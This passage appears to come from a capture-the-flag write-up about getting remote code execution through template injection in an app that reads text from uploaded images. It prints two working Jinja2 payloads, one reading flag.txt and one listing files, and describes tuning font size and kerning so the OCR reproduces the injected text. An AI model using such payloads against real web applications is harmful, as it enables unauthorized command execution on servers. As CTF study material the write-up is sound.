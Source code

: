 And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

![Untitled](images/Untitled%2018.png)

Monospace 36 with kerning adjustments in some parts.

![Untitled](images/Untitled%2019.png)

![Untitled](images/Untitled%2020.png)
